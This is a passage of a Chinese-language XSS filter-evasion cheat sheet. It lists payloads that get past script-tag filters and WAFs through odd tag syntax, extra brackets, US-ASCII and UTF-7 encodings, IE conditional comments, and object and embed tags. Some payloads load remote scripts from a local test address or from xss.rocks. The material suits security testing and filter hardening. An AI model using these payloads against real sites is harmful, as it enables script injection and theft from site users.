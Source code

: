 - 非字母非数字字符

	很多HTML解析器认为HTML关键词后面不能有非字母非数字字符（当前版本firefox,google,ie11等都支持），如果XSS过滤器是这样：`<script\s+`的话，就会检测失败

	```html
	<!-- 可以对标签后面的特殊字符进行fuzz -->
	<script/xxx src="http://127.0.0.1:8000/xss.js"></script>
	```

	或者，不允许空格时：

	```html
	<script/src="http://127.0.0.1:8000/xss.js"></script>
	```

- 额外的尖括号
	
	```html
	<!-- 下面的 // 可以用来注释掉多余的尖括号，避免出现js错误 -->
	<<script>alert('xss');//<</script>
	```

- US-ASCII编码

	使用畸形的７位ASCII编码来代替８位，这个XSS攻击向量可以绕过大多数内容过滤器，但是只在主机使用US-ASCII编码传输数据时有效，或者可以自己设置编码格式。相对绕过服务器端过滤，这在绕过WAF跨站脚本过滤时候更有效。Apache Tomcat是目前唯一已知使用US-ASCII编码传输的

	```html
	¼script¾alert(¢XSS¢)¼/script¾
	```

- UTF-7编码

	如果存在XSS的页面没有提供页面编码头部，或者使用了任何设置为使用UTF-7编码的浏览器，就可以使用下列方式进行攻击。这在任何不改变编码类型的现代浏览器上是无效的，这也是为什么标记为完全不支持的原因

	```html
	<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
	```

- html条件选择注释块

	只能在IE5.0及更高版本和IE渲染引擎模式下的Netscape 8.1生效
	
	```html
	<!--[if gte IE 4]>
	  <SCRIPT>alert('XSS');</SCRIPT>
	<![endif]-->
	```

- object标签

	```html
	<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
	```

- embed标签

	```html
	<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
	```
